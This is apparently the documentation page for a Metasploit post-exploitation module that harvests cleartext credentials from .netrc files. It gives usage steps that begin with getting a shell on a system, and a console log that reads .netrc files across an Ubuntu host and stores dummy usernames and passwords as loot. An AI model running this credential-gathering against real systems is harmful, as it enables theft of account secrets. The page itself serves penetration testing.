 ## Vulnerable Application

Post module to obtain credentials saved for FTP and other services
in `.netrc`

This file is kept in user's home directories to configure various services,
such as curl, but contains cleartext credentials.

### Example netrc file

Example documentation can be found in the curl docs on netrc:
https://everything.curl.dev/usingcurl/netrc

```
echo "machine example.com login daniel password qwerty" > ~/.netrc
echo "machine example2.com" >> ~/.netrc
echo "login daniel2" >> ~/.netrc
echo "password qwerty2" >> ~/.netrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/netrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.netrc` files exist with credentials, they will be read and stored into a loot file.

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf6 auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/netrc_creds
msf6 post(multi/gather/netrc_creds) > set session 1
session => 1
msf6 post(multi/gather/netrc_creds) > run

[*] Reading: /bin/.netrc
[*] Reading: /dev/.netrc
[*] Reading: /home/syslog/.netrc
[*] Reading: /home/ubuntu/.netrc
[*] Reading: /nonexistent/.netrc
[*] Reading: /root/.netrc
[*] Reading: /run/ircd/.netrc
[*] Reading: /run/sshd/.netrc
[*] Reading: /run/systemd/.netrc
[*] Reading: /run/uuidd/.netrc
[*] Reading: /usr/games/.netrc
[*] Reading: /usr/sbin/.netrc
[*] Reading: /var/backups/.netrc
[*] Reading: /var/cache/man/.netrc
[*] Reading: /var/cache/pollinate/.netrc
[*] Reading: /var/lib/gnats/.netrc
[*] Reading: /var/lib/landscape/.netrc
[*] Reading: /var/lib/tpm/.netrc
[*] Reading: /var/lib/usbmux/.netrc
[*] Reading: /var/list/.netrc
[*] Reading: /var/mail/.netrc
[*] Reading: /var/snap/lxd/common/lxd/.netrc
[*] Reading: /var/spool/lpd/.netrc
[*] Reading: /var/spool/news/.netrc
[*] Reading: /var/spool/uucp/.netrc
[*] Reading: /var/www/.netrc

.netrc credentials
==================

 Username  Password  Server
 --------  --------  ------
 daniel    qwerty    example.com
 daniel2   qwerty2   example2.com

[*] Credentials stored in: /root/.msf4/loot/20221008103946_default_1.1.1.1_netrc.creds_551386.txt
[*] Post module execution completed
```
